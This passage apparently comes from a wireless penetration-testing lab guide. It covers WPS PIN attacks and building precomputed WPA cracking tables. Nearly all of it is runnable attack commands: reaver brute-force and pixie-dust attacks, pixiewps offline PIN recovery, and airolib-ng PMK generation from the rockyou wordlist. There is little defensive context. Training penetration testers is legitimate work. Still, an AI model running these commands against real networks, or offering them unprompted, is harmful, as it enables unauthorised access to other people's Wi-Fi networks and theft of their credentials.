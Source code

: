 ### **Exercise 2.3: WPS PIN Attack**

**Objective**: Exploit WPS vulnerabilities to recover network credentials.

**WPS Discovery**:
```bash
# Scan for WPS-enabled networks
airodump-ng -w wps_scan --output-format csv wlan0mon

# Use reaver for WPS PIN attack
sudo reaver -i wlan0mon -b 00:11:22:33:44:55 -c 6 -vv

# Pixie dust attack
sudo reaver -i wlan0mon -b 00:11:22:33:44:55 -c 6 -K 1 -vv
```

**WPS PIN Brute Force**:
```bash
# Systematic PIN attack
sudo reaver -i wlan0mon -b 00:11:22:33:44:55 -c 6 -d 0 -x 60 -vv

# Use pixiewps for offline attack
sudo pixiewps -e [PKE] -r [PKR] -s [HASH1] -z [HASH2] -a [AUTHKEY] -n [ENONCE]
```

---

## 🔐 Phase 3: Advanced Cracking Techniques

### **Exercise 3.1: Rainbow Table Attacks**

**Objective**: Use precomputed rainbow tables for fast WPA cracking.

**Rainbow Table Creation**:
```bash
# Create rainbow table database
airolib-ng rainbow.db --create

# Import common SSIDs
echo "linksys" > common_ssids.txt
echo "netgear" >> common_ssids.txt
echo "dlink" >> common_ssids.txt
echo "belkin" >> common_ssids.txt

airolib-ng rainbow.db --import essid common_ssids.txt

# Import password list
airolib-ng rainbow.db --import passwd /usr/share/wordlists/rockyou.txt

# Generate PMK calculations
airolib-ng rainbow.db --batch

# Check statistics
airolib-ng rainbow.db --stats
```
